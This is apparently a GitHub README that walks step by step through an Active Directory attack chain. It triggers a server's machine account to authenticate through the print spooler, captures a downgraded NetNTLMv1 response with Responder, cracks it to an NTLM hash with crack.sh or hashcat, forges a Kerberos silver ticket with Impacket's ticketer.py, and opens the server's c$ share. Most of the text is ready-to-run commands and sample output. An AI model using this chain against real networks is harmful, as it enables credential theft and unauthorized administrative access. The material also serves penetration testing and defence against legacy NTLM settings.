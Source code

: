 # SpoolSample -> NetNTLMv1 -> NTLM -> Silver Ticket

This technique has been alluded to by others, but I haven't seen anything cohesive out there.  Below we'll walk through the steps of obtaining NetNTLMv1 Challenge/Response authentication, cracking those to NTLM Hashes, and using that NTLM Hash to sign a Kerberos Silver ticket.

This will work on networks where "LAN Manager authentication level" is set to 2 or less. This is a fairly common scenario in older, larger Windows deployments.  It will not work on Windows 10 / Server 2016 or newer.

## There are 3 main steps

Obtain a NetNTLMv1 Response of a machine account vis @tifkin_'s (Lee Christensen's) SpoolSample

Crack that NetNTLMv1 Response back into an NTLM Hash using @0x31337's (David Hulton's) Rainbow Tables

Generate a Silver Ticket using the newly obtained NTLM Hash using @agsolino's (Albert Solino's) ticketer.py

## Obtain a NetNTLMv1 Response

### Identify potentially vulnerable machines

Using Powershell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

    Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders &gt; servers.txt

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) SpoolerScanner, see if the Spooler Service is listening

    ForEach ($server in Get-Content servers.txt) {Get-SpoolSample $server}

### Start Responder with the --lm flag to force a LM downgrade

    ./Responder.py -I eth0 --lm

### Trigger an authentication

    SpoolSample.exe TARGET RESPONDERIP

or use dementor.py if you're on Linux

    python dementor.py -d domain -u username -p password RESPONDERIP TARGET

Example Response:

```bash
[SMB] NTLMv1 Client   : 10.0.0.2
[SMB] NTLMv1 Username : DOMAIN\SERVER$
[SMB] NTLMv1 Hash     : SERVER$::DOMAIN:E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8:E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8:1122334455667788
```

## Crack the NetNTLMv1 responses back into an NTLM Hash

You can use a set of Rainbow Tables to reverse the NTHASH to NTLM, or you can reverse it to its DES constituent components and crack it with hashcat.  

An 8x 1080 rig can brute force it in about 6 days, so consider Rainbow Tables.

### Rainbow Tables

1. For Rainbow Tables, there is a service hosted at [https://crack.sh/netntlm/](https://crack.sh/netntlm/) that will recover NTLM from NetNTLMv1 for free. This is provided by David Hulton of Toorcon.  We're working on a local copy of the rainbow tables and software that does not require and FPGA for lookups.

2. For crack.sh, the format is
     NTHASH:(response), so NTHASH:E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8 from the example.

### Or Cracking Them with hashcat

1. @evil_mog's [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool below can break them

```bash
python ntlmv1.py --nossp SERVER$::DOMAIN:E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8:E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8:1122334455667788
```

This will return the below output with instructions:

```bash
Hashfield Split:
['SERVER$', '', 'DOMAIN', 'E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8', 'E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8', '1122334455667788']

Hostname: DOMAIN
Username: SERVER$
Challenge: 1122334455667788

LM Response: E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8
NT Response: E38AE9FDC8F3E3256F9EF8952484A592029070940789B6B8

CT1: E38AE9FDC8F3E325
CT2: 6F9EF8952484A592
CT3: 029070940789B6BE

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 029070940789B6BE 1122334455667788


To crack with hashcat create a file with the following contents:
E38AE9FDC8F3E325:1122334455667788
6F9EF8952484A592:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## Create a Kerberos Silver Ticket

You'll need to find a few pieces of information for this: SPN of the service you want to access, domain SID, domain user account SID and account name with local admin access, and a domain group that user is a member of if it's group-based local admin.

For the service, the most common will be cifs/ as it maps back to the HOST/ service

### Generate a Silver Ticket using Impacket's ticketer.py

```bash
./ticketer.py -nthash 2494718f81121bc592391de2b173a179 -domain-sid S-1-5-21-1519992770-720179076-619646970   -domain DOMAIN.COM -spn cifs/SERVER.DOMAIN.COM -user-id 123456 -groups 4321 username
```

1. Set the generated ccache file to the appropriate environment variable:

```bash
export KRB5CCNAME=/root/Assessments/NTLMTest/USERNAME.ccache
```

2. Use smbclient, wmiexec,  psexec, or any other impacket tool:

```bash
smbclient -k //SERVER.DOMAIN.COM/c$ -d
```

## Work left to do

* Distribute 6TB of Rainbow Tables
  * Torrent
  * DEF CON Data Duplication Village

* Modify @0x31337's desrtop to not require an FPGA
  * Outside my personal wheelhouse, but I'm grinding anyway

* Identify more ways to trigger a machine account authentication remotely
  * xp_dirtree is another path
  * Anyone willing to share others they may have found?
